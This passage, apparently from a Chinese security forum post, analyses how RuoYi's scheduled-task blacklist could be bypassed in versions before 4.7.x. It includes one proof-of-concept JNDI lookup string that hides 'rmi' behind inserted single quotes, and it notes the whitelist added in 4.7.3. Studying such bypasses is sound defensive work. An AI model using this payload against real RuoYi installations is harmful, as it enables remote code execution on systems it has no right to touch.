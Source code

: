 后边发现不止这一篇，其他就不在举例了。

![image-20240306193040061](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-61674861666d37add1a44ac63bd037b6022f6d5e.png)

但是我去翻了diff，发现在4.7.1中的黑名单已经过滤了这些poc。

![image-20240306191126087](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-720b5b08913d2cccfb6203898893125677b18b51.png)

### 单引号绕过

在4.7.0的版本以下，仅仅只是屏蔽了ldap、http(s)、ldap。这里可以结合若依对将参数中的所有单引号替换为空来绕过

poc、例如：

```php
org.springframework.jndi.JndiLocatorDelegate.lookup('r'm'i://127.0.0.1:1099/refObj')
```

分析：

创建任务时`r'm'i`可以绕过对`rmi`的过滤

![image-20240306233303535](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-a510511e8ce0a1aec0fa8e43eb93836c178aa745.png)

之前分析的定时任务运行的原理，会在`com.ruoyi.quartz.util.JobInvokeUtil`类中第一个`invokeMethod`方法调用`getMethodParams`方法来获取参数

![image-20240306233449771](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-3b044996b81e181d404489e5a386019641ddf611.png)

跟进之后发现会把参数中的`'`替换为空

![image-20240306233620830](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-15b7211a8f10943635d02864408d2b98b494ffeb.png)

打个断点调试一下

![image-20240306233813294](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-5c6c3253c6b0eb946d856d72c1ada5da0fcc7192.png)

&lt;4.7.2
---------

在这个版本下可以看到有可以看到有ldaps、配置文件rce等方法bypass，网上挺多文章的就不分析了

### ldaps

### 配置文件rce

4.7.3
-----

在4.7.3的版本下，又增加了白名单，只能调用com.ruoyi包下的类！并且把之前所有的路堵死了

![image-20240306213248788](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-31e84d0e2410125611ea3ff50912774bbc2d5fb7.png)

![image-20240306213334189](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-3a98a9615009057816fceeedae6bab1e8c1475f9.png)
